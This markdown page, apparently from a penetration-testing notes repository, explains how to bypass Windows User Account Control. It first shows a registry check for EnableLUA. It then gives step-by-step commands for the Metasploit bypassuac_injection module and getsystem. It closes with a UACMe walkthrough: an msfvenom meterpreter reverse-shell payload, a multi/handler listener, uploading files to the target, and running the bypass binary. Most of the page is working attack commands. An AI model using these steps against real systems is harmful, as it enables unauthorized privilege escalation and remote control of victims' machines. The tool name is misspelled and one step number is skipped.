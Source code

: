 User Account Control (UAC) is a security feature in Microsoft Windows designed to prevent unauthorized changes to the operating system. It ensures that any changes requiring administrative privileges must be explicitly approved by the user. UAC helps protect against malware and unauthorized software installations.

![](uac_example.png)


## UAC Enable Verification
You can use the `reg query` command to check the value of the registry key related to UAC:

```bash
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
```

- If the value of `EnableLUA` is `1`, UAC is enabled.
- If the value of `EnableLUA` is `0`, UAC is disabled.

## BypassUAC_injection (Metasploit)
1. **Set up the module**: To use the `bypassuac_injection` module, start by selecting it within Metasploit:
```bash
msf6 > use exploit/windows/local/bypassuac_injection
```

2. **Set required options**: Once the module is selected, set the required options:

- `SESSION`: The session ID of the compromised machine.
- `PAYLOAD`: The payload you want to deliver (e.g., `windows/x64/meterpreter/reverse_tcp`).
- `TARGET`: The target architecture used by the victim machine.
- `LHOST`: The attacker's local host IP address.
- `LPORT`: The attacker's listening port for the reverse connection.

3. **Exploit the system**:

```bash
run
```

4. **Escalate privileges**: After running the exploit a meterpreter session will spawn with the privileges of the original session. To gain the Authority system privileges is necessary to execute the following command on the meterpreter session:

```bash
getsystem
```

## UACMe

[UACME](https://github.com/hfiref0x/UACME) is a tool designed to bypass User Account Control (UAC) prompts on Windows operating systems. It leverages vulnerabilities in the UAC mechanism to elevate privileges without requiring user interaction. UACME is primarily used for **post-exploitation** activities to escalate privileges during penetration testing or ethical hacking exercises.

#### Usage
1. **Select the key**

In the **Usage** section of the ReadMe file, there is a dropdown menu called **"keys"** where you can select the best option depending on your specific scenario. This allows you to tailor the tool's functionality to your needs, making it more adaptable for different environments or exploitation techniques.

2. **Create a payload file**

Using **msfvenom**, you can generate a reverse shell payload file. Here's a basic example to create a reverse TCP shell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > reverse_shell.exe
```

3. **Set a listener**
Set up a listener to wait for incoming connections from the reverse shell. In Metasploit, this can be done using the following command:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set LPORT <Your_Port>
exploit
```

4. **Upload the akagai and reverse shell file**

You will need to upload both the Akagai executable and the reverse shell payload to the target machine. This can be done via various methods like web shell, SMB, or other file transfer techniques, depending on the access you've gained.


6. **Execute the exploit**

Once everything is set up, execute the exploit with the following command:

```
.\Akagai.exe <key> <full_path_to_rev_shell>
```